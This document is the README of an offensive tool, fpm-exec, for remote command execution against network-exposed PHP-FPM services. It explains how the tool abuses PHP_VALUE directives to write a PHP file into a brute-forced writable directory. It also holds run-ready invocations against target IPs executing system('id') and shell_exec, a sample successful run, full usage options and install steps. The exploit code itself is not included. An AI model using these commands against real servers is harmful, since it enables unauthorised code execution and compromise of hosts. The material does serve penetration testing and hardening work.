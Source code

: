 # FPM-Exec: FastCGI PHP-FPM Remote Command Execution

A [won't fix RCE exploit](https://github.com/php/php-src/security/advisories/GHSA-xwv2-pr23-qqmh) for any: 
* PHP-FPM service exposed on a network (or stocket) accessible by the attacker.
* with a writable path by php-fpm process

Features:
* IP/Port or unix://path unix sockets support
* Retry mechanism due to PHP process destruction/creation
* Bruteforce of writable directories
* Wordlist creation based on: 
  * OS writable dirs
  * webserver root directories
  * mount dir path
  * / for chrooted env
  * classic upload directories path
  * PHP session’s path

## Quick start

Example of successfull execution:
```
# python3 fpm-exec.py -t 127.0.0.1:9000 -c "system('id')"
[+] Checking connectivity with 127.0.0.1:9000 with an empty test request
[+] Connexion OK
[+] Response:
Status: 404 Not Found
X-Powered-By: PHP/8.3.2
Content-type: text/html; charset=UTF-8

File not found.

[+] Loaded 1638 writable directories combinations
[+] Using exec technique 'save_handler'
[+] Searching for a writable dir with dummy cmd 'echo 1'
[+] Trying directory /tmp/
[+] !! Got PHP command exec with a test command: echo 1
[+] Tips: for quicker exec next time use option: -d /tmp/
[+] Executing: system('id')
[+] Execution success:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Explainations

As explained by PHP's maintainers, exposing PHP-FPM service on an untrusted network is considered as a missconfiguration (not a vulnerability) and should never happened.

It is well-known that an exposed PHP-FPM may lead to RCE. PHP-FPM is exposed by default on port tcp/9000 and is for now identified as `cslistener` by nmap.

However, to achieve RCE, there is a pre-requisite: the attacker must know an existing PHP file path on the filesystem: example: `/var/www/html/index.php`.

I discovered that php.ini directives through `PHP_ADMIN_VALUE` or `PHP_VALUE` could be abused to create an arbitrary PHP file on a writable directory without preliminar knownledge on the target system. With this trick, we remove the prerequisite to know a PHP file path.

This exploit could fail is if the script cannot find a well-known writable directory to create a PHP file.

Blog post: work in progress...

## Other usages

Set or force a writable directory:
```
# python3 fpm-exec.py -t "192.168.1.2:9000" -c "echo shell_exec('id')" -d "/usr/var/tmp"
```

Enable verbose mode:
```
# python3 fpm-exec.py -t "192.168.1.2:9000" -c "echo shell_exec('id')" -v
```

Usage:
```
# python3 fpm-exec.py -h

usage: fpm-exec.py [-h] -t TARGET [-c CMD] [-d DIRECTORY] [-r RETRY] [-e {save_handler,extension}] [-m TIMEOUT] [-v] [-n]

Execute arbitrary PHP command on exposed php-fpm host

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target to call, host:port or unix://path
  -c CMD, --cmd CMD     PHP command to execute
  -d DIRECTORY, --directory DIRECTORY
                        Writable directory list comma separated
  -r RETRY, --retry RETRY
                        Retry request count
  -e {save_handler,extension}, --exec-technique {save_handler,extension}
                        Execution technique
  -m TIMEOUT, --timeout TIMEOUT
                        Socket timeout in ms
  -v, --verbose         Verbose output
  -n, --no-color        No colored output
```

## Installation

```
git clone https://github.com/darkpills/fpm-exec

cd fpm-exec

pip3 install -r requirements.txt
```

## Disclaimer

The material and information contained on this website do not aim at encouraging any form of illegal activity. They are provided for educational purpose only. The author can not be responsible for any activities consequent to the use of the content presented here. The information are provided "AS IS" with no warranties, and confers no rights. The opinions expressed in this website are my own and feel free to challenge me. 